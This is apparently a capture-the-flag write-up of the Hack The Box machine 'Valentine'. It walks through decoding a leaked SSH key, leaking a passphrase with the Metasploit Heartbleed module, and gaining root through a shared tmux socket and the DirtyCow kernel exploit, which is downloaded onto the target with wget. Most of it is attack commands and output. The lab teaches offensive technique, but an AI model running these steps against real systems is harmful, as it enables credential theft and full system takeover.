49 44 76 65 4b 50 4e 61 61 57 5a 67 45 63 71 78 79 6c 43 43 2f 77 55 79 55 58 6c 4d 4a 35 30 4e 77 36 4a 4e 56 4d 4d 38 4c 65 43 69 69 33 4f 45 57 0d 0a 6c 30 6c 6e 39 4c 31 62 2f 4e 58 70 48 6a 47 61 38 57 48 48 54 6a 6f 49 69 6c 42 35 71 4e 55 79 79 77 53 65 54 42 46 32 61 77 52 6c 58 48 39 42 72 6b 5a 47 34 46 63 34 67 64 6d 57 2f 49 7a 54 0d 0a 52 55 67 5a 6b 62 4d 51 5a 4e 49 49 66 7a 6a 31 51 75 69 6c 52 56 42 6d 2f 46 37 36 59 2f 59 4d 72 6d 6e 4d 39 6b 2f 31 78 53 47 49 73 6b 77 43 55 51 2b 39 35 43 47 48 4a 45 38 4d 6b 68 44 33 0d 0a 2d 2d 2d 2d 2d 45 4e 44 20 52 53 41 20 50 52 49 56 41 54 45 20 4b 45 59 2d 2d 2d 2d 2d


```

Now that I have reviewed both the available files on the `/dev/` endpoint, I decided to go take a look at the `encode.php` endpoint first.



The `encode.php` endpoint contained an input field parameter & seemed like it would return the encoded string from the value I put in the input field. I decided to test the encoding functionality first by inputting `password` to see what does the web application do.


The encoded string seemed like a `base64` encoded string. I tried to confirm whether or not the encoded string is a `base64` encoded string.

```
echo -n 'cGFzc3dvcmQ=' | base64 -d
password
```

Turns out, it is. I went to `decode.php` to see the decoder's functionality.


The `decode.php` endpoint looked a lot similar to the `encode.php` endpoint with the only distinction being the encoder/decoder functionality. I put `cGFzc3dvcmQ=` in the input field & hit submit.


Turns out that the web application is using the `base64` encoding algorithm only. Nothing interesting is going on here, it's just a simple base64 encoding/decoding functionality. Now that I have enumerated the web application, & didn't find anything interesting on the web application itself, I decided to enumerate the `hype_key` further to try to see the contents of the file. Since the content of the file is hex data, I went to [CyberChef](https://cyberchef.io) to decode the hex data.



The decoded string of the `hype_key` file turns out to be the private key for the user `hype`, judging by the name of the key itself. I saved the private key as `hype.key` & modified the permissions of the file to `600` (read & write for the user) to try to login as the user `hype` using `ssh`.

```
vi hype.key
chmod 600 hype.key
ls -lah hype.key
-rw------- 1 akku akku 1.8K Nov  4 16:13 hype.key
```

```
ssh hype@valentine.htb
The authenticity of host 'valentine.htb (10.129.232.136)' can't be established.
ECDSA key fingerprint is SHA256:lqH8pv30qdlekhX8RTgJTq79ljYnL2cXflNTYu8LS5w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'valentine.htb' (ECDSA) to the list of known hosts.
hype@valentine.htb's password:
^C
ssh hype@valentine.htb -i hype.key 
Enter passphrase for key 'hype.key':
^C
```

Unfortunately, even though I was using the private key for the user `hype`, I still needed the passphrase for the key itself. I decided to go back to the nmap scan to see if I missed something useful.

```
head -n 10 nmap/valentine.nmap 
# Nmap 7.95 scan initiated Wed Nov  4 15:13:52 2026 as: nmap -p- -T4 -sVC -oA nmap/valentine -vvv 10.129.232.136
Nmap scan report for 10.129.232.136
Host is up, received echo-reply ttl 63 (0.015s latency).
Scanned at 2026-11-04 15:13:53 EST for 28s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAIMeSqrDdAOhxf7P1IDtdRqun0pO9pmUi+474hX6LHkDgC9dzcvEGyMB/cuuCCjfXn6QDd1n16dSE2zeKKjYT9RVCXJqfYvz/ROm82p0JasEdg1z6QHTeAv70XX6cVQAjAMQoUUdF7WWKWjQuAknb4uowunpQ0yGvy72rbFkSTmlAAAAFQDwWVA5vTpfj5pUCUNFyvnhy3TdcQAAAIBFqVHk74mIT3PWKSpWcZvllKCGg5rGCCE5B3jRWEbRo8CPRkwyPdi/hSaoiQYhvCIkA2CWFuAeedsZE6zMFVFVSsHxeMe55aCQclfMH4iuUZWrg0y5QREuRbGFM6DATJJFkg+PXG/OsLsba/BP8UfcuPM+WGWKxjuaoJt6jeD8iQAAAIBg9rgf8NoRfGqzi+3ndUCo9/m+T18pn+ORbCKdFGq8Ecs4QLeaXPMRIpCol11n6va090EISDPetHcaMaMcYOsFqO841K0O90BV8DhyU4JYBjcpslT+A2X+ahj2QJVGqZJSlusNAQ9vplWxofFONa+IUSGl1UsGjY0QGsA5l5ohfQ==
```

Looking at the results of the nmap scan, I noticed that the OS version is quite old. So, I decided to look for any specific vulnerabilities for the same.




However, I did not find any critical vulnerability or any other kind of vulnerability through which I could obtain command execution. I decided to run the vulnerabilty scripts in nmap to see if anything pops up, as the box is quite old.

```
sudo nmap --script vuln valentine.htb -vvv
Starting Nmap 7.95 ( https://nmap.org ) at 2026-11-11 20:47 EST
NSE: Loaded 105 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 20:47
Completed NSE at 20:47, 10.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 20:47
Completed NSE at 20:47, 0.00s elapsed
Initiating Ping Scan at 20:47
Scanning valentine.htb (10.129.232.136) [4 ports]
Completed Ping Scan at 20:47, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 20:47
Scanning valentine.htb (10.129.232.136) [1000 ports]
Discovered open port 80/tcp on 10.129.232.136
Discovered open port 443/tcp on 10.129.232.136
Discovered open port 22/tcp on 10.129.232.136
Completed SYN Stealth Scan at 20:47, 0.39s elapsed (1000 total ports)
NSE: Script scanning 10.129.232.136.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 20:47
Completed NSE at 20:48, 27.62s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 20:48
Completed NSE at 20:48, 0.00s elapsed
Nmap scan report for valentine.htb (10.129.232.136)
Host is up, received echo-reply ttl 63 (0.027s latency).
Scanned at 2026-11-11 20:47:34 EST for 28s
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
443/tcp open  https   syn-ack ttl 63
| ssl-ccs-injection:
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
|       http://www.openssl.org/news/secadv_20140605.txt
|_      http://www.cvedetails.com/cve/2014-0224
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum:
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
| ssl-heartbleed:
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|
|     References:
|       http://cvedetails.com/cve/2014-0160/
|       http://www.openssl.org/news/secadv_20140407.txt
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| ssl-poodle:
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  BID:70574  CVE:CVE-2014-3566
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_RSA_WITH_AES_128_CBC_SHA
|     References:
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|       https://www.openssl.org/~bodo/ssl-poodle.pdf
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
|_      https://www.securityfocus.com/bid/70574

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 20:48
Completed NSE at 20:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 20:48
Completed NSE at 20:48, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 38.27 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1004 (40.164KB)
```

The vulnerability scan in nmap revealed an interesting fact about the box, that the box is likely vulnerable to `Heartbleed Bug` which is a serious vulnerability in the popular OpenSSL cryptographic software library & it allows for stealing information inteded to be protected by SSL/TLS encryption. The CVE-id associated with `Heartbleed Bug` is `CVE-2014-0160`. So, I went ahead & used searchsploit to see the exploit associated with the CVE.

## Exploiting the HeartBleed Vulnerability Bug

I tried a lot of different github repositories, but none of them worked for me. So, I decided to use metasploit to exploit the vulnerability.

```
msfconsole -q
[msf](Jobs:0 Agents:0) >> search heartbleed

Matching Modules
================

   #  Full Name                                               Disclosure Date  Rank    Check  Name
   -  ---------                                               ---------------  ----    -----  ----
   0  auxiliary/scanner/http/elasticsearch_memory_disclosure  2021-07-21       normal  Yes    Elasticsearch Memory Disclosure
   1    \_ action: DUMP                                       .                .       .      Dump memory contents to loot
   2    \_ action: SCAN                                       .                .       .      Check hosts for vulnerability
   3  auxiliary/server/openssl_heartbeat_client_memory        2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
   4  auxiliary/scanner/ssl/openssl_heartbleed                2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak
   5    \_ action: DUMP                                       .                .       .      Dump memory contents to loot
   6    \_ action: KEYS                                       .                .       .      Recover private keys from memory
   7    \_ action: SCAN                                       .                .       .      Check hosts for vulnerability


Interact with a module by name or index. For example info 7, use 7 or use auxiliary/scanner/ssl/openssl_heartbleed
After interacting with a module you can manually set a ACTION with set ACTION 'SCAN'

[msf](Jobs:0 Agents:0) >> use 4
[*] Setting default action SCAN - view all 3 actions with the show actions command
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssl/openssl_heartbleed) >> show options

Module options (auxiliary/scanner/ssl/openssl_heartbleed):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   DUMPFILTER                         no        Pattern to filter leaked memory before storing
   LEAK_COUNT        1                yes       Number of times to leak memory per SCAN or DUMP invocation
   MAX_KEYTRIES      50               yes       Max tries to dump key
   RESPONSE_TIMEOUT  10               yes       Number of seconds to wait for a server response
   RHOSTS                             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using
                                                -metasploit.html
   RPORT             443              yes       The target port (TCP)
   STATUS_EVERY      5                yes       How many retries until key dump status
   THREADS           1                yes       The number of concurrent threads (max one per host)
   TLS_CALLBACK      None             yes       Protocol to use, "None" to use raw TLS sockets (Accepted: None, SMTP, IMAP, JABBER, PO
                                                P3, FTP, POSTGRES)
   TLS_VERSION       1.0              yes       TLS/SSL version to use (Accepted: SSLv3, 1.0, 1.1, 1.2)


Auxiliary action:

   Name  Description
   ----  -----------
   SCAN  Check hosts for vulnerability


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(scanner/ssl/openssl_heartbleed) >> set rhosts 10.129.232.136
rhosts => 10.129.232.136
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssl/openssl_heartbleed) >> set verbose TRUE
verbose => true
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssl/openssl_heartbleed) >> run
[*] 10.129.232.136:443    - Leaking heartbeat response #1
[*] 10.129.232.136:443    - Sending Client Hello...
[*] 10.129.232.136:443    - SSL record #1:
[*] 10.129.232.136:443    -     Type:    22
[*] 10.129.232.136:443    -     Version: 0x0301
[*] 10.129.232.136:443    -     Length:  86
[*] 10.129.232.136:443    -     Handshake #1:
[*] 10.129.232.136:443    -             Length: 82
[*] 10.129.232.136:443    -             Type:   Server Hello (2)
[*] 10.129.232.136:443    -             Server Hello Version:           0x0301
[*] 10.129.232.136:443    -             Server Hello random data:       6af52b1cb54ea37ff81a8688b18a5904279f4ea3ab211aa549e78110f812e54e
[*] 10.129.232.136:443    -             Server Hello Session ID length: 32
[*] 10.129.232.136:443    -             Server Hello Session ID:        7fa24a25c7ad271c10815304201952aa848a5fdfe5f1a23dfb946a1ed44dfe1c
[*] 10.129.232.136:443    - SSL record #2:
[*] 10.129.232.136:443    -     Type:    22
[*] 10.129.232.136:443    -     Version: 0x0301
[*] 10.129.232.136:443    -     Length:  885
[*] 10.129.232.136:443    -     Handshake #1:
[*] 10.129.232.136:443    -             Length: 881
[*] 10.129.232.136:443    -             Type:   Certificate Data (11)
[*] 10.129.232.136:443    -             Certificates length: 878
[*] 10.129.232.136:443    -             Data length: 881
[*] 10.129.232.136:443    -             Certificate #1:
[*] 10.129.232.136:443    -                     Certificate #1: Length: 875
[*] 10.129.232.136:443    -                     Certificate #1: #<OpenSSL::X509::Certificate: subject=#<OpenSSL::X509::Name CN=valentine.htb,O=valentine.htb,ST=FL,C=US>, issuer=#<OpenSSL::X509::Name CN=valentine.htb,O=valentine.htb,ST=FL,C=US>, serial=#<OpenSSL::BN:0x00007f1bbfae2680>, not_before=2018-02-06 00:45:25 UTC, not_after=2019-02-06 00:45:25 UTC>
[*] 10.129.232.136:443    - SSL record #3:
[*] 10.129.232.136:443    -     Type:    22
[*] 10.129.232.136:443    -     Version: 0x0301
[*] 10.129.232.136:443    -     Length:  331
[*] 10.129.232.136:443    -     Handshake #1:
[*] 10.129.232.136:443    -             Length: 327
[*] 10.129.232.136:443    -             Type:   Server Key Exchange (12)
[*] 10.129.232.136:443    - SSL record #4:
[*] 10.129.232.136:443    -     Type:    22
[*] 10.129.232.136:443    -     Version: 0x0301
[*] 10.129.232.136:443    -     Length:  4
[*] 10.129.232.136:443    -     Handshake #1:
[*] 10.129.232.136:443    -             Length: 0
[*] 10.129.232.136:443    -             Type:   Server Hello Done (14)
[*] 10.129.232.136:443    - Sending Heartbeat...
[*] 10.129.232.136:443    - Heartbeat response, 65535 bytes
[+] 10.129.232.136:443    - Heartbeat response with leak, 65535 bytes
[*] 10.129.232.136:443    - Printable info leaked:
......j..P:.....~0.%......D4.n.._%A.m...f.....".!.9.8.........5.............................3.2.....E.D...../...A.......................................ux i686; rv:45.0) Gecko/20100101 Firefox/45.0..Referer: https://127.0.0.1/decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==..c.T......
[...snip...]
```

I noticed that `$text` is revealed using the exploit, whose value seems a lot similar to that of a base64 encoded string. So, I went ahead to confirm whether or not this value is a base64 encoded string or not.

```
echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
heartbleedbelievethehype
```

Turns out, it is indeed a base64 encoded string. I tried to use it as the password for the `hype` user to see if I can log in to the SSH service.

```
ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa hype@valentine.htb
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

hype@Valentine:~$ wc -c user.txt
33 user.txt
hype@Valentine:~$
```

And I was able to get in.

> NOTE: The SSH-RSA algorithm has been fully disabled by default on the newer versions of OpenSSH. Thus, it was required by me to explicitly specify the algorithm in the command itself (by using `-o PubkeyAcceptedKeyTypes=ssh-rsa`)

## Privilege Escalation

Since I didn't have the password for the user `hype`, running the `sudo -l` command wouldn't have gotten me anywhere. So, I tried to see the open ports on which the box was listening.

```
hype@Valentine:~$ ss -tlnp
State      Recv-Q Send-Q                                    Local Address:Port                                      Peer Address:Port 
LISTEN     0      128                                                  :::80                                                  :::*     
LISTEN     0      128                                                  :::22                                                  :::*     
LISTEN     0      128                                                   *:22                                                   *:*     
LISTEN     0      128                                           127.0.0.1:631                                                  *:*     
LISTEN     0      128                                                 ::1:631                                                 :::*     
LISTEN     0      128                                                  :::443                                                 :::*     
hype@Valentine:~$
```

An unusual one, but not so interesting, TCP port which was open on the box was `TCP 631` which is used for `Internet Printing Protocol (IPP)`. So, there was nothing interesting found in here. Next, I tried to list cronjobs running as the user `hype`.

```
hype@Valentine:~$ crontab -l
no crontab for hype
hype@Valentine:~$
```

And there was no cronjobs running as the user `hype` either. Next, I tried to search for files having `SUID` bit set for the user and for the group as well.

```
hype@Valentine:~$ find / -perm -4000 -ls 2>/dev/null
 17723   36 -rwsr-xr-x   1 root     root        36832 Apr  8  2012 /bin/su
 15989   32 -rwsr-xr-x   1 root     root        31304 Mar  2  2012 /bin/fusermount
 17732   68 -rwsr-xr-x   1 root     root        69096 Mar 29  2012 /bin/umount
 16974   36 -rwsr-xr-x   1 root     root        35712 Nov  8  2011 /bin/ping
 16975   40 -rwsr-xr-x   1 root     root        40256 Nov  8  2011 /bin/ping6
 16034   96 -rwsr-xr-x   1 root     root        94792 Mar 29  2012 /bin/mount
 75004  288 -rwsr-xr--   1 root     messagebus   292944 Feb 22  2012 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
 74559   12 -rwsr-xr-x   1 root     root        10592 Apr 19  2012 /usr/lib/pt_chown
 76845   16 -r-sr-xr-x   1 root     root        14320 Dec 11  2017 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
 77496   12 -r-sr-xr-x   1 root     root         9532 Dec 11  2017 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
 78625   16 -rwsr-xr-x   1 root     root        14696 Jan  6  2012 /usr/lib/policykit-1/polkit-agent-helper-1
 75016   12 -rwsr-xr-x   1 root     root        10408 Dec 13  2011 /usr/lib/eject/dmcrypt-get-device
 73985  236 -rwsr-xr-x   1 root     root       240984 Aug 11  2016 /usr/lib/openssh/ssh-keysign
 72182   24 -rwsr-xr-x   1 root     root        23184 Jan  6  2012 /usr/bin/pkexec
 72399   72 -rwsr-xr-x   1 root     root        71248 Jan 31  2012 /usr/bin/sudoedit
 71360   12 -rwsr-sr-x   1 root     root        10184 Mar 22  2012 /usr/bin/X
 72089   32 -rwsr-xr-x   1 root     root        32352 Apr  8  2012 /usr/bin/newgrp
 71976   16 -rwsr-xr-x   1 root     lpadmin     14688 Apr  9  2012 /usr/bin/lppasswd
 72069   64 -rwsr-xr-x   1 root     root        62400 Jul 28  2011 /usr/bin/mtr
 71490   40 -rwsr-xr-x   1 root     root        37096 Apr  8  2012 /usr/bin/chsh
 71407   20 -rwsr-xr-x   1 root     root        18808 Nov  8  2011 /usr/bin/arping
 72138   44 -rwsr-xr-x   1 root     root        42824 Apr  8  2012 /usr/bin/passwd
 72398   72 -rwsr-xr-x   1 root     root        71248 Jan 31  2012 /usr/bin/sudo
 71413   48 -rwsr-sr-x   1 daemon   daemon      47928 Oct 25  2011 /usr/bin/at
 71487   44 -rwsr-xr-x   1 root     root        41832 Apr  8  2012 /usr/bin/chfn
 72443   20 -rwsr-xr-x   1 root     root        18912 Nov  8  2011 /usr/bin/traceroute6.iputils
 71749   64 -rwsr-xr-x   1 root     root        63848 Apr  8  2012 /usr/bin/gpasswd
 82037   20 -rwsr-sr-x   1 libuuid  libuuid     18856 Mar 29  2012 /usr/sbin/uuidd
 81962  320 -rwsr-xr--   1 root     dip        325744 Feb  4  2011 /usr/sbin/pppd
hype@Valentine:~$ find / -perm -6000 -ls 2>/dev/null
 71360   12 -rwsr-sr-x   1 root     root        10184 Mar 22  2012 /usr/bin/X
 71413   48 -rwsr-sr-x   1 daemon   daemon      47928 Oct 25  2011 /usr/bin/at
 82037   20 -rwsr-sr-x   1 libuuid  libuuid     18856 Mar 29  2012 /usr/sbin/uuidd
hype@Valentine:~$
```

Didn't find anything interesting here either. Next, I tried to see the contents of the `.bash_history` file to see if it leaks something.

```
hype@Valentine:~$ ls -lah | grep .bash_history
-rw-------  1 hype hype  802 Nov 12 11:58 .bash_history
hype@Valentine:~$ cat .bash_history

exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess
tmux a -t dev_sess
tmux --help
tmux -S /.devs/dev_sess
exit
```

The contents of the `.bash_history` revealed that the user was running a `tmux` session. I decided to look into it a little bit further.

```
hype@Valentine:~$ ls -lah /.devs/dev_sess                                                                                              
srw-rw---- 1 root hype 0 Nov 11 17:34 /.devs/dev_sess
hype@Valentine:~$ groups
hype cdrom dip plugdev sambashare
```

Apparently, the file `/.devs/dev_sess` has an `SUID` bit set for the owner root, which doesn't do anything. However, anyone who's a member of the group `hype` has `Read & Write` access to the file. So, I decided to get into the tmux session to see what's in there. And as soon as I ran the command `tmux -S /.devs/dev_sess`, I got into a tmux session as the `root` user

```
root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/home/hype# wc -c /root/root.txt
33 /root/root.txt
```

## Privilege Escalation using Dirty Cow

After completing the box, I went to look at `IPPSec`'s walkthrough for the box in which he used 2 approaches for privilege escalation. One was the same that I used, with a distinction of running the `LinEnum.sh` script to see the potential privilege escalation vectors. The other approach consisted of using a `Kernel Exploit` named `Dirty Cow`. So, I decided to take a look into that approach as well. First, I tried to see the kernel information to begin with.

```
hype@Valentine:~$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

I searched on google for privilege escalation exploits related to `Linux Kernel 3.2.0-23-generic` & came across a github page [JlSakuya](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits) which listed the `Local Privilege Escalation Exploits` corresponding to the `Kernel Version` of the machine. I quicky searched for `DirtyCow` & got to know that the `Dirty Cow` privilege esacaltion exploit would work for Linux Kernel versions `2.6.22 through 4.8.3`. I took a note of the in my mind for future references.



I decided to save the exploit in my `/opt/DirtyCow/` directory so that I can use it in future, if need be. I used the same `DirtyCow` exploit that `IPPSec` used in his walkthrough, i.e., [FireFart's DirtyCow](https://github.com/firefart/dirtycow).

```
git clone https://github.com/firefart/dirtycow.git
Cloning into 'dirtycow'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 30 (delta 2), reused 4 (delta 1), pack-reused 23 (from 1)
Receiving objects: 100% (30/30), 10.18 KiB | 10.18 MiB/s, done.
Resolving deltas: 100% (8/8), done.
cd dirtycow/
grep gcc dirty.c 
//   gcc -pthread dirty.c -o dirty -lcrypt
```

I transferred the `dirty.c` file to the host machine by setting up a python http-server (`python3 -m http.server`). I saved the file using `wget` command to the `/dev/shm/` directory, which deletes all the files within the directory on shutdown.

```
hype@Valentine:/dev/shm$ wget http://10.10.17.235/dirtycow/dirty.c
--2026-11-12 12:59:39--  http://10.10.17.235/dirtycow/dirty.c
Connecting to 10.10.17.235:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4795 (4.7K) [text/x-csrc]
Saving to: `dirty.c'

100%[==============================================================================================>] 4,795       --.-K/s   in 0.01s   

2026-11-12 12:59:39 (346 KB/s) - `dirty.c' saved [4795/4795]

hype@Valentine:/dev/shm$ ls
dirty.c
hype@Valentine:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt
hype@Valentine:/dev/shm$ ls
dirty  dirty.c
hype@Valentine:/dev/shm$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
toor:toe.nz6zgAWfw:0:0:pwned:/root:/bin/bash

mmap: 7fe4cea54000

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'toor' and the password 'firefart'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'toor' and the password 'firefart'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

I used `firefart` as the password when prompted for the password. What the exploit does is that it creates a new user, named `toor` on the host machine with `root` privileges & prompts the user (or attacker) for the password. Now that I had ran the exploit on the host, I can simply use `su toor` & use the password `firefart` which I used when prompted for the same.

```
hype@Valentine:/dev/shm$ su toor
Password: 
toor@Valentine:/dev/shm# id
uid=0(toor) gid=0(root) groups=0(root)
toor@Valentine:/dev/shm# wc -c /root/root.txt
33 /root/root.txt
toor@Valentine:/dev/shm#
```

